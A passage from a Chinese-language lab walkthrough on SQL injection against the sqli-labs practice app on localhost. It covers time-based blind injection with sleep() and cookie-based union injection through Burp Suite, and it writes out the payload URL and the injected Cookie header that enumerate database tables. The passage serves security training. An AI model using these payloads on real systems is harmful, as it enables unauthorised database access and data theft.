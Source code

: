![截屏2021-06-10 上午1.05.08.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623258339277-0ac1f8c4-3475-4391-83b1-f1c26e9b3536.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=dzobv&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-10%20%E4%B8%8A%E5%8D%881.05.08.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=887958&status=done&style=none&title=&width=2604)<br />利用sleep()函数的延时作用，来判断正误<br />输入<br />http://127.0.0.1:8081/Less-9/?id=1' or if((select ascii(substr(table_name,1,1)) from information_schema.tables where table_schema=database() limit 0,1)=101,sleep(0.1),0) %23<br />![截屏2021-06-10 上午1.04.30.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623258302302-65dbc5ce-4f61-49b9-b80d-ba2fc7d9b319.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=DlOAz&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-10%20%E4%B8%8A%E5%8D%881.04.30.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=989970&status=done&style=none&title=&width=2604)<br />依此类推
## cookie注入
![截屏2021-06-10 上午1.08.06.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623258516193-540c8aa0-ffb5-4868-aa72-9f1b6fb2974e.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=lOZMm&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-10%20%E4%B8%8A%E5%8D%881.08.06.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=944597&status=done&style=none&title=&width=2604)<br />输入admin/admin登陆，获取cookie<br />![截屏2021-06-10 上午1.10.18.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623258687489-67f803f2-2159-4e1c-902f-ea56a3035770.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=TDkZ7&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-10%20%E4%B8%8A%E5%8D%881.10.18.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=1062092&status=done&style=none&title=&width=2604)<br />打开burpsuite抓包<br />![截屏2021-06-10 上午1.13.20.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623258837129-5040c3a8-bae5-45fd-9dee-b1c90ca1b35b.png#crop=0&crop=0&crop=1&crop=1&height=1750&id=eBhv7&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-10%20%E4%B8%8A%E5%8D%881.13.20.png&originHeight=1750&originWidth=2696&originalType=binary&ratio=1&rotation=0&showTitle=false&size=492319&status=done&style=none&title=&width=2696)<br />在burp中进行改包<br />![截屏2021-06-10 上午1.17.04.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623259056589-6beb203b-231e-4727-a395-b1279673e1d7.png#crop=0&crop=0&crop=1&crop=1&height=1750&id=VhStB&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-10%20%E4%B8%8A%E5%8D%881.17.04.png&originHeight=1750&originWidth=2696&originalType=binary&ratio=1&rotation=0&showTitle=false&size=566425&status=done&style=none&title=&width=2696)<br />判断出后台为单引号注入<br />order by 判断出为3列后，进行联合查询，判断出数据显示的位置<br />![截屏2021-06-10 上午1.24.00.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623259476559-cb938133-d3a5-4555-877d-3c541e1be2e1.png#crop=0&crop=0&crop=1&crop=1&height=1750&id=o5I13&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-10%20%E4%B8%8A%E5%8D%881.24.00.png&originHeight=1750&originWidth=2696&originalType=binary&ratio=1&rotation=0&showTitle=false&size=745156&status=done&style=none&title=&width=2696)<br />![截屏2021-06-10 上午1.24.48.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623259502452-7f7381e7-b256-4276-90d4-5b6c50051b21.png#crop=0&crop=0&crop=1&crop=1&height=170&id=tdItO&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-10%20%E4%B8%8A%E5%8D%881.24.48.png&originHeight=170&originWidth=532&originalType=binary&ratio=1&rotation=0&showTitle=false&size=30188&status=done&style=none&title=&width=532)<br />cookie的值为<br />Cookie: uname=admin' and 0 union select 99,group_concat(table_name),77 from information_schema.tables where table_schema=database() %23<br />![截屏2021-06-10 上午1.33.30.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623260064290-ecafa471-bc88-48b6-a6fc-120d39eceaa3.png#crop=0&crop=0&crop=1&crop=1&height=1750&id=yyOj5&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-10%20%E4%B8%8A%E5%8D%881.33.30.png&originHeight=1750&originWidth=2696&originalType=binary&ratio=1&rotation=0&showTitle=false&size=751191&status=done&style=none&title=&width=2696)<br />从而得到当前数据库中的所有表<br />剩余同上
## HTTP-Referer注入